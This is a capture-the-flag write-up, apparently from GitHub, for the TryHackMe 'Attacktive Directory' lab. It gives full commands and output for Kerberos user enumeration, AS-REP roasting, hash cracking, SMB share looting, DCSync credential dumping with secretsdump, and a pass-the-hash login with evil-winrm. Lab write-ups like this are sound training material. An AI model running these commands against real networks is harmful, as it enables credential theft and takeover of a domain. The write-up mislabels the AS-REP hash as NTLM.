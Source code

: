 #	Room 	Attacktive Directory
#	Mayank Srivastava | 17 dec 2020
--------------------------------------------
##	Target OS 	Windows
##	Difficulty 	Easy
##	Description 	99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?
##	Maker 	Sq00ky
---------------------------------------------

#	Reconnaissance
``` As always I can Run a nmap scan against the IP  ```

```-sC for Default script -sV for Enumerating versions -oN default nmap Output```

```nmap -Sc -sV -oN nmap <target_ip> ```

```
# Nmap 7.91 scan initiated Thu Dec 17 19:05:58 2020 as: nmap -sC -sV -oN nmap/initial 10.10.103.197
Nmap scan report for 10.10.103.197
Host is up (0.63s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-17 13:36:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-17T13:36:57+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-09-16T22:48:24
|_Not valid after:  2021-03-18T22:48:24
|_ssl-date: 2020-12-17T13:37:08+00:00; +2s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-17T13:36:58
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 17 19:07:24 2020 -- 1 IP address (1 host up) scanned in 86.47 seconds
```

## Enumerating Port 80

We can start by looking at the webserver. There's default IIS web page also we can do directory bruteforcing but this box is related to Active Directory so let's Move forward. There is a DNS domain name that i am going set spoookysec.local in ```/etc/hosts``` file.

## Enumerating SMB

Let's try to Enumerate 139,445 ports.
using enum4linux
```
enum4linux -a spookysec.local
Nmap Output suggested our Domain Name was spookysec.local however, enum4linux shows THM-AD.
I can see enum4linux failed to provide much inforamtion such as 
users.
```
## Kerbrute

we can try kerbrute to  get users of DC
```kerbrute username --dc spookysec.local -d spookysec.local userlist.txt```
After running this command i have some vaild users of DC.
 
```
2020/10/01 04:50:02 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/01 04:50:06 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/01 04:50:12 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/01 04:50:14 >  [+] VALID USERNAME:       robin@spookysec.local
2020/10/01 04:50:36 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/10/01 04:50:50 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/10/01 04:51:28 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/01 04:51:41 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/01 04:53:01 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/01 04:53:28 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/10/01 04:56:11 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/01 05:02:01 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/01 05:03:55 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/01 05:10:02 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/01 05:11:51 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/01 05:15:01 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```
## Exploiting Kerberos


Now i am going to crack Active Directory password with AS-REP Roasting. This is an attack agains Kerberos for user accounts that do not require pre-authentication.

```python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -usersfile valid-users.txt```

After running this command i got ```NTLM``` hash


## Cracking 

i can't wait let's decrypt the hash using john and login to ```smb```.
Also you can use ```hashcat``` for cracking the hash use mode number ```18200``` for hash

## john

``` john scv-admin.txt --wordlist=/opt/password.txt```

## hashcat

```
hashcat -m 18200 svc-admin.txt /opt/password.txt --force
```

```Running john and hashcat will gave you a password.```

now at this stage i have smb username and password so let's try to login using smbclient

```
smbclient -L //<target_ip>/ --user svc-admin


 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```
I found some shares and ```backup``` seems interesting.I found ```backup_credentials.txt``` file inside the ```backup```. Let's take a look at what's that include.

``` YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw ```
it's a base64 encoding.
Decrypting will give me another credential for the user backup.

## Elevating Privileges 

``` 
python secretsdump.py -just-dc backup@spookysec.local
```

Dumping this revels administrator NTLM hash. Now i can crack the hash or use ```evil-winrm``` to connect the administrator.

```
./evil-winrm.rb -i 10.10.225.20 -u Administrator -H (HASH HERE PLEASE)
```

# Thanks For Reading